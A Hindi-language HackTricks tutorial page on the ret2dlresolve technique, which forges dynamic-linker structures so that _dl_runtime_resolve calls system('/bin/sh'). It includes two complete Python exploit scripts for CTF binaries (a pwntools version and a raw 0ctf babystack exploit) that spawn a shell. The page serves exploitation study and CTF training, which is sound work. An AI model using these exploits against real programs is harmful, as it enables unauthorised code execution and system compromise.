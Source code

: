 # Ret2dlresolve

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सब्सक्रिप्शन प्लान्स देखें**](https://github.com/sponsors/carlospolop)!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) कलेक्शन [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें** द्वारा PRs सबमिट करके [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में।

</details>

## मौलिक जानकारी

[**GOT/PLT**](../arbitrary-write-2-exec/aw2exec-got-plt.md) और [**Relro**](../common-binary-protections-and-bypasses/relro.md) के पेज में समझाया गया है कि पूर्ण Relro के बिनरी सिम्बोल (जैसे बाहरी पुस्तकालयों के पतों) को पहली बार उन्हें उपयोग किया जाता है तो हल करेगा। यह समाधान **`_dl_runtime_resolve`** फ़ंक्शन को कॉल करके होता है।

**`_dl_runtime_resolve`** फ़ंक्शन स्टैक से कुछ संरचनाओं को लेता है जिनकी आवश्यकता होती है ताकि वह निर्दिष्ट सिम्बोल को **हल** कर सके।

इसलिए, यह संभव है कि **सभी इन संरचनाओं को नकली बनाया जाए** ताकि डायनामिक लिंक किए गए निर्दिष्ट सिम्बोल (जैसे **`system`** फ़ंक्शन) को हल करें और इसे एक विन्यासित पैरामीटर (उदाहरण के लिए **`system('/bin/sh')`**) के साथ कॉल करें।

सामान्यत: यह साधन विशेष रूप से उपयोगी है यदि सिस्टम कैलिस गैजेट्स नहीं हैं (तकनीकों का उपयोग करने के लिए जैसे [**ret2syscall**](rop-syscall-execv.md) या [SROP](srop-sigreturn-oriented-programming.md)) और libc पतों को लीक करने के तरीके नहीं हैं।

आप इस तकनीक के बारे में एक बेहतर समझ पा सकते हैं वीडियो के दूसरे हाफ में:

{% embed url="https://youtu.be/ADULSwnQs-s?feature=shared" %}

## संरचनाएं

**`JMPREL`**, **`STRTAB`** और **`SYMTAB`** नकली बनाना आवश्यक है। आपको यह अच्छी तरह से समझाने के लिए [https://ir0nstone.gitbook.io/notes/types/stack/ret2dlresolve#structures](https://ir0nstone.gitbook.io/notes/types/stack/ret2dlresolve#structures) में इनका कैसे निर्माण किया जाता है के बारे में अधिक व्याख्या मिलेगी।

## हमले का सारांश

1. किसी स्थान पर नकली संरचनाएं लिखें
2. सिस्टम का पहला तर्क सेट करें (`$rdi = &'/bin/sh'`)
3. स्टैक पर संरचनाओं के पतों को कॉल करने के लिए **`_dl_runtime_resolve`** को कॉल करने के लिए सेट करें
4. **`_dl_runtime_resolve`** को कॉल करें
5. **`system`** हल होगा और `'/bin/sh'` के साथ कॉल किया जाएगा

## उदाहरण

### प्योर Pwntools

आप एक [**इस तकनीक का उदाहरण यहाँ पा सकते हैं**](https://ir0nstone.gitbook.io/notes/types/stack/ret2dlresolve/exploitation) **जिसमें अंतिम ROP श्रृंखला की बहुत अच्छी व्याख्या है**, लेकिन यहाँ उपयोग किया गया अंतिम धोखाधड़ी है:
```python
from pwn import *

elf = context.binary = ELF('./vuln', checksec=False)
p = elf.process()
rop = ROP(elf)

# create the dlresolve object
dlresolve = Ret2dlresolvePayload(elf, symbol='system', args=['/bin/sh'])

rop.raw('A' * 76)
rop.read(0, dlresolve.data_addr) # read to where we want to write the fake structures
rop.ret2dlresolve(dlresolve)     # call .plt and dl-resolve() with the correct, calculated reloc_offset

log.info(rop.dump())

p.sendline(rop.chain())
p.sendline(dlresolve.payload)    # now the read is called and we pass all the relevant structures in

p.interactive()
```
### कच्चा
```python
# Code from https://guyinatuxedo.github.io/18-ret2_csu_dl/0ctf18_babystack/index.html
# This exploit is based off of: https://github.com/sajjadium/ctf-writeups/tree/master/0CTFQuals/2018/babystack

from pwn import *

target = process('./babystack')
#gdb.attach(target)

elf = ELF('babystack')

# Establish starts of various sections
bss = 0x804a020

dynstr = 0x804822c

dynsym = 0x80481cc

relplt = 0x80482b0

# Establish two functions

scanInput = p32(0x804843b)
resolve = p32(0x80482f0) #dlresolve address

# Establish size of second payload

payload1_size = 43

# Our first scan
# This will call read to scan in our fake entries into the plt
# Then return back to scanInput to re-exploit the bug

payload0 = ""

payload0 += "0"*44                        # Filler from start of input to return address
payload0 += p32(elf.symbols['read'])    # Return read
payload0 += scanInput                    # After the read call, return to scan input
payload0 += p32(0)                        # Read via stdin
payload0 += p32(bss)                    # Scan into the start of the bss
payload0 += p32(payload1_size)            # How much data to scan in

target.send(payload0)

# Our second scan
# This will be scanned into the start of the bss
# It will contain the fake entries for our ret_2_dl_resolve attack

# Calculate the r_info value
# It will provide an index to our dynsym entry
dynsym_offset = ((bss + 0xc) - dynsym) / 0x10
r_info = (dynsym_offset << 8) | 0x7

# Calculate the offset from the start of dynstr section to our dynstr entry
dynstr_index = (bss + 28) - dynstr

paylaod1 = ""

# Our .rel.plt entry
paylaod1 += p32(elf.got['alarm'])
paylaod1 += p32(r_info)

# Empty
paylaod1 += p32(0x0)

# Our dynsm entry
paylaod1 += p32(dynstr_index)
paylaod1 += p32(0xde)*3

# Our dynstr entry
paylaod1 += "system\x00"

# Store "/bin/sh" here so we can have a pointer ot it
paylaod1 += "/bin/sh\x00"

target.send(paylaod1)

# Our third scan, which will execute the ret_2_dl_resolve
# This will just call 0x80482f0, which is responsible for calling the functions for resolving
# We will pass it the `.rel.plt` index for our fake entry
# As well as the arguments for system

# Calculate address of "/bin/sh"
binsh_bss_address = bss + 35

# Calculate the .rel.plt offset
ret_plt_offset = bss - relplt


paylaod2 = ""

paylaod2 += "0"*44
paylaod2 += resolve                 # 0x80482f0
paylaod2 += p32(ret_plt_offset)        # .rel.plt offset
paylaod2 += p32(0xdeadbeef)            # The next return address after 0x80482f0, really doesn't matter for us
paylaod2 += p32(binsh_bss_address)    # Our argument, address of "/bin/sh"

target.send(paylaod2)

# Enjoy the shell!
target.interactive()
```
## अन्य उदाहरण और संदर्भ

* [https://youtu.be/ADULSwnQs-s](https://youtu.be/ADULSwnQs-s?feature=shared)
* [https://ir0nstone.gitbook.io/notes/types/stack/ret2dlresolve](https://ir0nstone.gitbook.io/notes/types/stack/ret2dlresolve)
* [https://guyinatuxedo.github.io/18-ret2\_csu\_dl/0ctf18\_babystack/index.html](https://guyinatuxedo.github.io/18-ret2\_csu\_dl/0ctf18\_babystack/index.html)
* 32बिट, कोई relro नहीं, कोई कैनेरी नहीं, nx, कोई pie नहीं, मूल स्मॉल बफर ओवरफ्लो और रिटर्न। इसे एक्सप्लॉइट करने के लिए बीओएफ का उपयोग किया जाता है ताकि `read` को फिर से एक `.bss` सेक्शन के साथ और एक बड़े साइज में कॉल किया जा सके, जिसमें `dlresolve` फेक टेबल्स को भरने के लिए `system` लोड किया जा सके, मुख्य में वापस लौटें और प्रारंभिक बीओएफ को फिर से उपयोग करने के लिए dlresolve को कॉल करने और फिर `system('/bin/sh')` को कॉल करने के लिए।
